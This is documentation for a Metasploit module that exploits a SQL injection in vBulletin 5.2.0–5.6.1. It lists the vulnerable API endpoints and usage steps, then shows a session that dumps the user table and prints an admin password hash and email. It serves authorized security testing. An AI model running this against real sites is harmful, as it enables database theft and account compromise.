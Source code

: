 ## Vulnerable Application

  [vBulletin](https://www.vbulletin.com) A popular PHP bulletin board and blog web application.
  This module has been tested successfully against vBulletin 5.6.1 running on Ubuntu Linux 19.04

### Description

This module exploits a SQL injection vulnerability present in vBulletin 5.2.0 through 5.6.1 in the
`getIndexableContent` function. This vulnerability is triggered through the `nodeId` variable and
can be reached through multiple paths (listed below) but is exploited in this module utilizing the
`/ajax/api/content_infraction/getIndexableContent` path.

- /ajax/api/content_video/getIndexableContent
- /ajax/api/content_text/getIndexableContent
- /ajax/api/content_report/getIndexableContent
- /ajax/api/content_redirect/getIndexableContent
- /ajax/api/content_privatemessage/getIndexableContent
- /ajax/api/content_poll/getIndexableContent
- /ajax/api/content_photo/getIndexableContent
- /ajax/api/content_link/getIndexableContent
- /ajax/api/content_infraction/getIndexableContent
- /ajax/api/content_gallery/getIndexableContent
- /ajax/api/content_event/getIndexableContent
- /ajax/api/content_channel/getIndexableContent
- /ajax/api/content_attach/getIndexableContent

Each path listed above reaches the `getIndexableContent` function within the `/core/vb/library/content.php`
file. The SQL injection attack used utilizes a UNION query in order to leak data back in the response
`rawtext` field. The data stored on the file system contains the entire `user` table or a dump of all the
vBulletin tables in json format.

## Verification Steps

1. Do: ```use auxiliary/gather/vbulletin_getindexablecontent_sqli```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set VHOST [HOSTNAME]```
4. Do: ```set TARGETURI [PATH]```
5. Do: ```run```

## Options

### NODE

A valid node id value for the vBulletin install. When provided, this value is used instead of that acquired
by brute-forcing

### MINNODE

A minimum nodeid value to begin with when brute-forcing for a valid node id. **Default: 1**

### MAXNODE

A maximum nodeid value to end with when brute-forcing for a valid node id. **Default: 200**

### TARGETURI

The base URI path of vBulletin. **Default: /**

## Scenarios

```
msf5 auxiliary(gather/vbulletin_getindexablecontent_sqli) > set RHOSTS 192.168.1.100
RHOSTS => 192.168.1.100
msf5 auxiliary(gather/vbulletin_getindexablecontent_sqli) > set VHOST vb.local
VHOST => vb.local
msf5 auxiliary(gather/vbulletin_getindexablecontent_sqli) > set TARGETURI /
TARGETURI => /vb5
msf5 auxiliary(gather/vbulletin_getindexablecontent_sqli) > show actions 

Auxiliary actions:

   Name      Description
   ----      -----------
   DumpAll   Dump all tables used by vbulletin.
   DumpUser  Dump only user table used by vbulletin.

msf5 auxiliary(gather/vbulletin_getindexablecontent_sqli) > run

[*] Running module against 192.168.1.100
[*] Brute forcing to find a valid node id.
[+] Successfully found node at id 1
[*] Attempting to determine the vBulletin table prefix.
[+] Successfully retrieved table to get prefix from vb5_language.
[*] Getting table columns for vb5_user
[+] Retrieved 78 columns for vb5_user
[*] Dumping table vb5_user
[*] Table contains 1 rows, dumping (this may take a while).
[+] Found credential: administrator:$2y$15$I5t0BGBeYaYGbaRhhBr8g.EBax846Jx3B6ady..nwuPxOWAYicYvi (Email: zenofex@exploitee.rs)
[+] Retrieved 1 rows for vb5_user
[+] Saved file to: /home/zenofex/.msf4/loot/20200522180431_default_192.168.1.100_vb5_user_305077.txt
[*] Auxiliary module execution completed

```

